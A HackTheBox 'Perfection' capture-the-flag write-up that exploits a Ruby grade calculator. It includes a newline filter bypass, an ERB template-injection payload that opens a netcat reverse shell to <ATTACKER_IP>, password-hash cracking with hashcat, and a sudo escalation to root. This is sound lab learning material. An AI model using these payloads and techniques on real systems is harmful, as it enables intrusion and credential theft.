


# HackTheBox - Perfection

I started with the usual portscan.

`nmap -p- -T4 -sV -sC <IP>`


We see two open ports.

An SSH server on port 22 and a web server on port 80.

So I took a look at the website.


We see a website that provides a grade calculator for us under `/weighted-grade`.


I gave input to the calculator and intercepted in __Burp__.


I tried to manually pass different input to the application, fuzzed with different payload lists of different exploit types to provoke error messages and generally detect anomalies.

I didn't get much out of it, but always this message __Malicious input blocked__.


I tried various command injection bypasses and when I injected a `%0A`, i.e. a newline character, I noticed that the previously blocked characters were now being displayed as shown here:



First I tried it with __Linux Command Injection__ and then I remembered that this is a __Ruby__ application, which we can figure out with a simple `404` error message.



So I added a url encoded ruby SSTI-POC and got to see the classic 49!


Hoooray, now it was clear what to do and I looked for a Ruby reverse SSTI payload, set a netcat listener and got a reverse shell.

__My Reverse Payload:__

```
category1=math%0A%3C%25=%20system('busybox%20nc%20<ATTACKER_IP>%209001%20-e%20/bin/bash')%20%25%3E&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

And I got a reverse shell and the first flag.


<br>
<br>

## susan -> root

The Privilege Escalation was quite straightforward.

I first ran Linpeas and noticed that Linpeas found mails.


`cat /var/mail/susan`


Okay, if we read the mail, I guess the next step is to crack custom crafted password hashes.

I found password hashes in a SQLite file under the path  `/home/susan/Migration/pupilpath_credentials.db`which I downloaded to my machine.

`sqlitebrowser pupilpath_credentials.db`


With hashcat I now cracked the hashes as follows with the attack mode `3` (brute force) and searched for the correct number suffix by always trying `?d` one more.After a short time the hash was cracked:

__Cracking Command:__ `hashcat -m 1400 -a3 hashes.txt {firstname}_{firstname backwards}_?d...`


With `sudo -l` I checked which commands we can call under sudo, saw that we had no sudo restrictions, jumped to root with `sudo su` and got the flag.


